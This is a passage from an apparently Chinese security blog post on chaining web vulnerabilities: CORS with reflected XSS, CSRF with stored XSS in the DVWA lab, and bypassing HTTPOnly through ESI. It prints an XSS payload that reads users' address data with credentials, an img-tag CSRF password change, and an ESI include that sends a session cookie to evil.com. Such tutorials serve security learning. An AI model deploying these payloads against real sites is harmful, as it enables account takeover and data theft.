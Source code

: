 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMGQUdrK79MGwKt4nsy50NNnZzMzYibbJoVzlGVlumJ03yyfHUzD6Jw0eEkotkUzUzapt3WF7FYlmlA/640?wx_fmt=png "")  
## CORS和XSS漏洞组合拳  
  
首先挖到一个反射xss漏洞![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMGQUdrK79MGwKt4nsy50NNnv2pkP0FwEVGyj9UrLiaVOZUT4lwasfj7YxibJiaBl8FGDiaxasyAvI30Hw/640?wx_fmt=png "")  
同时在另外一个域名下发现CORS漏洞，该接口能够获取用户身份量信息  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMGQUdrK79MGwKt4nsy50NNnic6ibJjOcGy5KDmPrteNnbVddkV0QjMpbJceibOibWve2QU8uHiafiahOVBw/640?wx_fmt=png "")  
  
修改为任意源发现直接拒绝  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMGQUdrK79MGwKt4nsy50NNndVc0R2icD0m9KeBjG1UPoVVhpV5VQrPL7FibEGGKV1f2iaTTxq6h1B4WQ/640?wx_fmt=png "")  
  
然后我再加上子域名就可以了、说明没有验证严谨、任何子域名都是允许源，在配合子域名的xss即可。![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMGQUdrK79MGwKt4nsy50NNnrfXgCHunpIIicaIrR4iab4sNlvhcsLK42e6y8KMjiawNXkY5pAUbBb58w/640?wx_fmt=png "")  
直接写脚本脚本如下：  
```
https://www.xxx.com/script/buyer/epay?callback=<script>var http = new XMLHttpRequest(); var url = 'https://www.bbb.com/user/address/getUserAllAddress.json?_=1647180520575'; var params = ''; http.open('GET', url, true); http.setRequestHeader("Content-type","application/json;charset=UTF-8"); http.withCredentials = true; http.onreadystatechange = function() {if(http.readyState == 4 && http.status == 200) {   alert(http.responseText);  } } http.send();</script>
```  
  
（以后使用的时候只要将给的链接替换成存在漏洞的链接即可）组合成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMGQUdrK79MGwKt4nsy50NNnSLXexzb7hJnbFOgUQ9zGRd7xu3FvCOy94XYHQmGUkctAyTG0hHr3UQ/640?wx_fmt=png "")  
## CSRF和XSS漏洞组合拳  
  
CSRF和XSS漏洞的组合拳，需要一个XSS比如在留言处、内容发布处，一个敏感操作的CSRF如密码修改处、个人信息修改处。在受害者访问存在xss漏洞的过程中，就能够直接造成CSRF漏洞来进行密码修改。看以下案列：直接访问修改密码URL 将难度调至Low级别，我们把在CSRF中修改密码后的URL复制下来  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMGQUdrK79MGwKt4nsy50NNnYAibObdSCicowmkjaA8MnicnCJM9iamoSjXgJsbEcpIR7FOHaQlicXWnG9g/640?wx_fmt=png "")  
到XSS(Stored)中将复制到的网址粘贴到Message中，使用img标签构造语句，若文本框限制字符长度，就在页面代码中修改  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMGQUdrK79MGwKt4nsy50NNnL92JjoIo1ePfTycUCWDawY5sEACK7taUBAq5XCFd72Hh3et9qFCT0Q/640?wx_fmt=png "")  
当受害者访问该存在xss漏洞的地方处，服务器就会自动加载img标签中的链接，该链接就是CSRF链接从而造成密码修改高危操作，其实这在实战中还是经常遇到的啦。<img src="http://127.0.0.1/dvwa/vulnerabilities/csrf/?password_new=444&password_conf=444&Change=Change">  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMGQUdrK79MGwKt4nsy50NNnx5ntPu8CeUt3G0vWiaySWgPRgR8WP7ibZZeQYrepJhCfzmlRiauzhzU3A/640?wx_fmt=png "")  
  
## 绕过HTTPOnly Cookie  
  
按照设计，HTTP代理（如代理和负载均衡器）可以访问完整的HTTP请求和响应。这包括浏览器或服务器发送的所有cookie。ESI规范的一个有用功能是能够访问ESI标签内传输的cookie。这允许开发人员在ESI引擎中使用cookie，通过利用cookie给予开发人员更大的灵活性。  
  
正是这个有用的功能提供一个重要的攻击媒介：cookie外带（cookie exfiltration）通过JavaScript引擎对cookie进行窃取的一个已知策略是使用HTTPOnly。它在创建Cookie时指定，将拒绝JavaScript引擎访问cookie及其值的能力，从而防止XSS攻击窃取cookie。由于ESI是在服务器端进行处理的，因此可以在从上游服务器到代理的过程中使用这些cookie。一个攻击媒介将使用ESI include通过其URL来外带cookie。想象一下ESI引擎正在处理以下payload：  
  
<esi:include src="http://evil.com/?cookie=$(HTTP_COOKIE{'JSESSIONID'})" />  
  